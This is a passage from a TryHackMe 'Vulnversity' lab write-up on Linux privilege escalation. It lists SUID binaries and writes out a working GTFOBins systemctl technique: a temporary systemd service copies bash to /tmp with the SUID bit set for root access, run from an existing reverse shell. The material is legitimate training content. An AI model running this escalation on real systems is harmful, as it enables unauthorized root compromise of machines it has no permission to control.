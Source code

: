 ```terminal
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
www-data@vulnuniversity:/home/bill$
```
After searching for SUID binaries, we found an interesting one, it's **systemctl**, let's search it in [GTFOBins](https://gtfobins.github.io/)

![SUID](/assets/img/tryhackme/Vulnversity/SUID.png)

Great! it is possible for us to get root using that, but we need to make some changes to that before trying to execute it. I will be changing the command that gets executed from `id > /tmp/output` to `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`. What that does is take a copy of bash and put in tmp directory. After that, it adds a SUID bit to that file so that we can execute as it's owner that is root. We also need to change the path of the binary from `./systemctl` to `/bin/systemctl`. Here is how are final commands should look like:

```terminal
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Now let's copy that and paste it into our reverse shell.
